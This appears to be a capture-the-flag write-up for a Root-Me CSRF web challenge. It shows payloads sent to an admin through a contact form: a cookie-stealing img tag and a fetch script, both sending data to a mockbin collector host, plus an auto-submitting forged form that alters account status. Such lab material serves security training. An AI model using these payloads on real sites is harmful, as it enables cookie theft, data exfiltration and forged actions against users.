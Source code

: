 # CSRF 0 protection

## Initial attempt

Submit the following in the contact section since that's the only way to communicate our exploits to the admin

```javascript
<img src="https://b5e02d613ca44b7384e0290125a1448e.api.mockbin.io/" + document.cookie />
```

Problem: we do not recieve any cookie on the mock bin, indicating maybe the admin is using a different interface to check contact logs.

## Forms

```javascript
<form name="badform" method="post" action="http://challenge01.root-me.org/web-client/ch22/index.php?action=profile">
    <input type="hidden" name="username" value="shawn">
    <input type="hidden" name="status" value="private">
</form>

<script>document.badform.submit()</script>
```

```javascript
var p = await fetch("http://challenge01.root-me.org/web-client/ch22/index.php?action=private")
    .then(async function(response){ 
        var t = await response.text();
        var r = await fetch("https://b5e02d613ca44b7384e0290125a1448e.api.mockbin.io/", {
            method: "POST",
            body: JSON.stringify({ html: t }),
        });
    });
```

Problem: no request is recieved on the mockbin

## Solution

```javascript
<form  name="badform" action="http://challenge01.root-me.org/web-client/ch22/index.php?action=profile" method="POST" enctype="multipart/form-data">
    <input type="text" name="username" value="shawn" />
    <input type="checkbox" name="status" checked=checked />
    <input type="submit" value="Submit request" />
</form>
<script>document.badform.submit()</script>
```
